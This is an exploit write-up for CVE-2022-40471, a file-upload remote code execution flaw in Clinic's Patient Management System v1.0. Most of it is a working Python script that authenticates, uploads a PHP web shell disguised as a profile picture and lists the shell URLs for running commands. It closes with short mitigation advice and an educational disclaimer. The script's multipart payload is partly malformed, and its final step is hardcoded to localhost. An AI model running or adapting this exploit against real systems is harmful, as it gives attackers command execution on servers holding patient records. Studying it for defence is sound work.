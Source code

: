 ## CVE-2022-40471 Remote Code Execution in Clinic's Patient Management System v 1.0

---

**Title:** Remote Code Execution in Clinic's Patient Management System v1.0 (CVE-2022-40471)

**Date:** September 9, 2022  
**Last Updated:** October 16, 2022

**Exploit Author:** RashidKhan Pathan  
**Exploit Source:** [Exploit Code](https://github.com/RashidKhanPathan/CVE-2022-40471) (exploit code)

**Vendor Homepage:** [Clinic's Patient Management System Source Code](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

**Software Link:** [Download Clinic's Patient Management System v1.0](https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-cpms.zip)

**Tested Platforms:** Windows 10, Kali Linux

---

**Description:**

The Clinic's Patient Management System v1.0 contains a severe vulnerability (CVE-2022-40471) allowing remote attackers to execute arbitrary code. This vulnerability arises due to improper handling of user-uploaded profile pictures in the 'users.php' module. Malicious actors can exploit this flaw to upload a PHP web shell, gaining unauthorized access and execution capabilities within the system.

---

**Exploitation Steps:**

To exploit this vulnerability, an attacker can perform the following steps:
1. Create a customized PHP web shell.
2. Utilize the 'users.php' module to upload the crafted web shell as a profile picture, alongside specifying a Display Name, Username, and Password.
3. Access the uploaded shell via the 'pms/user_images/' directory.
4. Intercept the shell's URL using BurpSuite and proceed to manipulate system commands by appending them after 'pms/user_images/.shell.php?cmd=your_command_here'.

---

**Exploit Code Overview:**

The provided Python script automates the exploitation process. It conducts authentication with the target, facilitates the upload of the malicious PHP web shell via crafted HTTP requests, and outputs the successful upload URL for the shell.

```python
# [Include the provided Python exploit code here]
from bs4 import *
import requests
import sys
import time

class RemoteCodeExecution:
    def auth(target_ip, target_port, uri_path, username, password):
        url = f'http://{target_ip}{uri_path}index.php'
        session = requests.get(url)
        cookies = (f"PHPSESSID={session.cookies['PHPSESSID']}")

        header = {
            'Host': target_ip,
            'Origin': 'http://' + target_ip,
            'Referer': 'http://' + target_ip + uri_path,
            'Cookie': cookies
        }

        data_body = {
            'username': username,
            'password': password,
        }

        url_auth = f'http://{target_ip}:{target_port}{uri_path}index.php'
        authentication = requests.post(url_auth, headers=header, data=data_body)

        if 'false' in authentication.text:
            print('[-] Username or password are incorrect, Try again')
            exit()
        else:
            print("[+] Exploit Title: Remote Code Execution (Authenticated) in Clinic's Patient Management System")
            print("[+] Author: RashidKhan Pathan {iHexCoder}")
            print("[@] Twitter: @itRashid")
            print("")
            time.sleep(1)
            print('[+] Authentication completed successfully,')
            print('[+] Uploading The Webshell')
        
        return cookies

    def exploit(target_ip, target_port, uri_path, cookies):
        header = {
                'Host': target_ip,
                'Content-Type': 'multipart/form-data; boundary=---------------------------405058720612140838201526428067',
                'Content-Length': '777',
                'Origin': 'http://' + target_ip,
                'Connection': 'close',
                'Cookie' : cookies,
                'Referer': 'http://' + target_ip + uri_path + 'users.php',
                'Upgrade-Insecure-Requests': '1'
        }


        data_body = '-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="display_name\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="user_name"\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="password"\r\n\r\nRCEEXPLOIT\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="profile_picture"; filename="shell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="save_user"\r\n\r\n-----------------------------405058720612140838201526428067--"; filename="webshell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------29635348012019605651675807433\r\nContent-Disposition: form-data; name="change\r\n\r\n-----------------------------29635348012019605651675807433--\r\n'
        uplaod_url = f"http://{target_ip}:{target_port}{uri_path}users.php"
        requests.post(uplaod_url, headers=header, data=data_body)


def main():
    
    if len(sys.argv) != 6:
        time.sleep(1)
        print("[+] Author: RashidKhan Pathan {iHexCoder}")
        print("[@] Twitter: @itRashid")

        time.sleep(1)
        print('Incorrect parameters!\r\n[!] Useage: python3 CVE-2022-40471.py <target_ip> <target_port> <target_uri> <username> <password>')
        print("[!] Example: python3 CVE-2022-40471.py 127.0.0.1 80 /pms/ UserName Password")

        exit()
        
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    uri_path = sys.argv[3]
    username = sys.argv[4]
    password = sys.argv[5]
    
    
    cookies = RemoteCodeExecution.auth(target_ip, target_port, uri_path, username, password)
    RemoteCodeExecution.exploit(target_ip, target_port, uri_path, cookies)    
    print(f'[+] Webshell uploaded successfully to: http://{target_ip}:{target_port}{uri_path}user_images/')
    print("[+] Enjoy your shell")
    print("[!] Note: In this Exploitation Scenario, Shell Changes the Random Digit after Uploading")
    print("[!] So Can use Any Uploaded Shell with Random Number ")
    print("[!] Copy The One of The Follwing Shell and Exploit it Using Curl ie: http://YourIP/pms/user_images/1663988032shell.php?cmd=whoami")
    print("")
    print("[+] Uploaded Shell")
    def get_url_paths(url, ext='', params={}):
        response = requests.get(url, params=params)
        if response.ok:
            response_text = response.text
        else:
            return response.raise_for_status()
        soup = BeautifulSoup(response_text, 'html.parser')
        parent = [url + node.get('href') for node in soup.find_all('a') if node.get('href').endswith(ext)]
        return parent

    url = 'http://localhost/pms/user_images/'
    ext = 'php'
    result = get_url_paths(url, ext)
    print(result)

   
    
if __name__ == '__main__':
    main()

```

---

**Recommendations:**

- **Immediate Update:** Users are strongly advised to update the Clinic's Patient Management System to a patched version that addresses this critical vulnerability.
- **Restrict File Uploads:** Implement stricter validation mechanisms for file uploads, especially image files, to prevent the execution of arbitrary code.
- **Regular Security Audits:** Conduct regular security audits and penetration testing to identify and patch potential vulnerabilities in the system.

---

**Disclaimer:**

This exploit demonstration and information are solely for educational purposes and security awareness. Use this knowledge responsibly and only on systems where you have explicit permission for testing or demonstration.







